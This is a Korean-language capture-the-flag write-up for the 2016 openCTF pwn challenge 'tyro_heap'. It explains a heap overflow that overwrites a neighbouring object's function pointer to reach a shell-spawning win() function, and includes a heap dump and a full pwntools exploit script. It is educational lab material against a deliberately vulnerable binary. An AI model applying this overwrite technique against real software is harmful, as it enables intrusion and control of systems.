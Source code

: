 # 2016 openCTF - [PWN] tyro_heap

## Key words

- i386 | NX
- heap buffer overflow
- overwrite function pointer

## Solution

문제는 다음과 같은 메뉴가 존재 합니다.

- c: 오브젝트 할당
  - obj = malloc(0x24)
  - obj[0] = &puts
- b: b 구조로 읽기
  - 오브젝트에 할당하는 크기에 제한이 없음
- a: a 구조로 읽기
  - 34 byte 만큼 오브젝트에 할당
- e: obj[0] 실행

문제 자체는 c++ class 의 vtable에 대한 공부로 좋은 형태가 될 것 같습니다.

c++ class의 첫 4바이트는 vtable 주소를 갖으며 vtable은 클래스 내부 멤버 함수들에 대한 주소를 갖기 때문에 이러한 함수 포인터를 덮는 개념을 배울 수 있습니다.

먼저, 오브젝트의 첫 바이트는 `&puts`, 즉 함수 포인터로 되어 있습니다. 따라서, `obj[0]('test')`와 같은 형태로 사용하게 되면 `puts('test')`로 사용할 수 있습니다.

읽기 메뉴에서는 함수 포인터 이후인 `obj+4`부터 읽기 때문에 당장은 함수 포인터를 덮을 수는 없지만 오브젝트 2개를 생성한 뒤에 첫 번째 오브젝트를 b구조로 읽어서 두 번째 오브젝트까지 덮을 수 있습니다.

```
[heap]
0x804b000:	0x00000000	0x00000029	0x080484e0	0x00000000
0x804b010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804b030:	0x080484e0	0x00000000	0x00000000	0x00000000
0x804b040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b050:	0x00000000	0x00020fb1	0x00000000	0x00000000
```

첫 번째 오브젝트 : `obj[0][0:4] = 0x0804b008 (&puts)` 까지는 함수 포인터 이며 `obj[0][4:36] = 0x0804b00c` 부터 0x20바이트 만큼 데이터 입니다.
두 번째 오브젝트 : `obj[1][0:4] = 0x0804b030 (&puts)` 로 되어 있습니다.

문제에서는 간단히 익스를 하기 위해 `win`이라는 함수를 제공해주고 있습니다.

```c
int win()
{
  return system("/bin/sh");
}
```

따라서, 첫 번째 오브젝트를 b 구조로 읽어 두 번째 오브젝트의 함수 포인터를 `&win`으로 덮고 실행 명령인 `e`를 해주게 되면 쉘이 떨어지게 됩니다.

## exploit code

```python
from pwn import *
context(arch='i386', os='linux')

target = "./tyro_heap"
p = process(target)

addr_win = 0x08048660

print p.recvuntil("::>")

# create object [idx 0]
p.sendline("c")
print p.recvuntil("::>")

# create object [idx 1]
p.sendline("c")
print p.recvuntil("::>")

# read_b -> idx 0 -> "A" * 0x20 + "A" * 8 + p32(win)
p.sendline("b")
print p.recv()
p.sendline("0")
print p.recv()
p.sendline("AAAA"*9 + p32(addr_win))
print p.recvuntil("::>")

p.sendline("e")
print p.recv()
p.sendline("1")
print p.recv()

p.interactive()
```
